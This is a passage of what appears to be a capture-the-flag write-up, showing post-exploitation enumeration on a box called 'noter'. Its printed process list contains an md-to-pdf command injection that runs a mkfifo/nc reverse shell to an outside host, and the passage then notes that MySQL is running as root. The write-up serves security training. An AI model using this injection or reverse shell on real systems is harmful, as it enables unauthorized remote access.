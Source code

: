 #### Processes

Running `ps auxww` doesn’t give any processes except those owned by svc:

```

svc@noter:/srv/ftp/ftp_admin$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
svc         1141  0.0  1.2 618460 51596 ?        Ssl  16:38   0:04 PM2 v5.2.0: God Daemon (/home/svc/.pm2)
svc         1170  0.2  1.1 485808 45816 ?        Ssl  16:38   0:25 python3 /home/svc/app/web/app.py
svc        12868  0.1  1.4 601756 58464 ?        Sl   19:40   0:00 node /home/svc/app/web/misc/md-to-pdf.js ---js ((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f")) ---RCE 9439
svc        12875  0.0  0.0   2608   536 ?        S    19:40   0:00 /bin/sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f
svc        12878  0.0  0.0   7372   516 ?        S    19:40   0:00 cat /tmp/f
svc        12879  0.0  0.0   2608   596 ?        S    19:40   0:00 /bin/sh -i
svc        12880  0.0  0.0   3332  1956 ?        R    19:40   0:00 nc 10.10.14.6 443
svc        12881  0.0  0.0   7356  2272 ?        S    19:42   0:00 script /dev/null -c bash
svc        12882  0.0  0.1  10060  5180 pts/0    Ss   19:42   0:00 bash
svc        12936  0.0  0.0  10612  3320 pts/0    R+   19:49   0:00 ps auxww

```

Nothing interesting there. `/proc` is mounted with `hidepid=2`. To see what else might be running, I’ll look in `/etc/systemd` to look for services. There’s a lot here. I’ll start with MySQL, since I know that’s running:

```

svc@noter:/etc/systemd$ find . -name '*.service' | grep sql
./system/multi-user.target.wants/mysqlcheck.service
./system/multi-user.target.wants/mysql-start.service
./system/mysqlcheck.service
./system/mysql-start.service

```

`mysql-start.service` shows that the service is running as root:

```

[Unit]
Description=MySQL service

[Service]
ExecStart=/usr/sbin/mysqld
User=root
Group=root

[Install]
WantedBy=multi-user.target

```

